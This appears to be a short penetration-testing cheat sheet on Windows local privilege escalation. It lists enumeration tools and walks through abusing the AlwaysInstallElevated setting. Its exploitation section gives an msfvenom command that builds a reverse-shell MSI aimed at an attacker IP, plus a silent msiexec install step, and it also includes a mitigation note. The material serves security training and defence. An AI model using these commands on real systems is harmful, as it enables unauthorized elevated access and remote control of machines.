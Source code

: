 ```yaml
---
title: Windows Local Privilege Escalation
author: Kasem Shibli
date: 2025-10-27 18:41:00 +/-TTTT
categories: [CheetSheets]
tags: [Windows LPE]
---
```

🛠️ Under Constructions
## Useful Tools

In the following table, some popular and useful tools for Windows local privilege escalation are presented:

| Name | Language | Author | Description |
|:-----------:|:-----------:|:-----------:|:-----------:|
| [SharpUp](https://github.com/GhostPack/SharpUp) | C# | [@harmj0y](https://twitter.com/harmj0y) | SharpUp is a C# port of various PowerUp functionality |
| [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1) | PowerShell | [@harmj0y](https://twitter.com/harmj0y) | PowerUp aims to be a clearinghouse of common Windows privilege escalation |
| [Privesc](https://github.com/enjoiz/Privesc) | PowerShell | [enjoiz](https://github.com/enjoiz) | Windows PowerShell script that finds misconfiguration issues which can lead to privilege escalation |
| [Winpeas](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS/winPEASexe) | C# | [@hacktricks_live](https://twitter.com/hacktricks_live) | Windows local Privilege Escalation Awesome Script |
| [PrivescCheck](https://github.com/itm4n/PrivescCheck) | PowerShell | [@itm4n](https://twitter.com/itm4n) | Privilege Escalation Enumeration Script for Windows |

## AlwaysInstallElevated
### Manual Enumeration
```powershell
$ reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
$ reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
### Tool Enumeration
```powershell
$ SharpUp.exe audit AlwaysInstallElevated
```
### Exploitation
```bash
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.15 LPORT=9001 -f msi > backdoor.msi
```
```powershell
execute on windows
$ msiexec /quiet /qn /i backdoor.msi
```
### Mitigation
To mitigate the `AlwaysInstallElevated` vulnerability, it is recommended to set the `AlwaysInstallElevated` value to `0` in both the `HKEY_LOCAL_MACHINE` and `HKEY_CURRENT_USER` hives in the Windows Registry.
